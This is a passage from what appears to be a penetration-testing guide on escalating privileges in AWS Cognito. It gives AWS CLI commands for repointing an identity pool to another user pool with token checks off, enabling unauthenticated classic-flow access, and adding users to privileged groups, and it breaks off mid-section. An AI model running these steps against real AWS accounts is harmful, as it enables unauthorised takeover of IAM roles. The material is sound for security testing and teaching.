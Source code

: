 ```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

It's also possible to **abuse this permission to allow basic auth**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Potential Impact**: Compromise the configured authenticated IAM role inside the identity pool.

### `cognito-idp:AdminAddUserToGroup`

This permission allows to **add a Cognito user to a Cognito group**, therefore an attacker could abuse this permission to add an user under his control to other groups with **better** privileges or **different IAM roles**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Potential Impact:** Privesc to other Cognito groups and IAM roles attached to User Pool Groups.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

An attacker with these permissions could **create/update groups** with **every IAM role that can be used by a compromised Cognito Identity Provider** and make a compromised user part of the group, accessing all those roles:
